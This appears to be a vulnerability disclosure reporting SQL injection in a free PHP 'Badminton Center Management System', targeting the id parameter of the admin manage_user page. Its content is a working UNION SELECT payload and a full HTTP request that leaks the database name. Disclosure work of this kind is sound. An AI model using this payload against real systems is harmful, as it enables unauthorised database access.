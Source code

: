 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Vulnerability File: /bcms/admin/?page=user/manage_user&id=

Vulnerability location: /bcms/admin/?page=user/manage_user&id=, id

[+] Payload: /bcms/admin/?page=user/manage_user&id=-3%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> id


```sql
GET /bcms/admin/?page=user/manage_user&id=-3%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170614485-509862df-63b5-42f8-ba0b-95fe2837fa64.png)

![image](https://user-images.githubusercontent.com/54017627/170614518-c13790e0-3bb3-4b88-8b9c-fcd19a50010f.png)
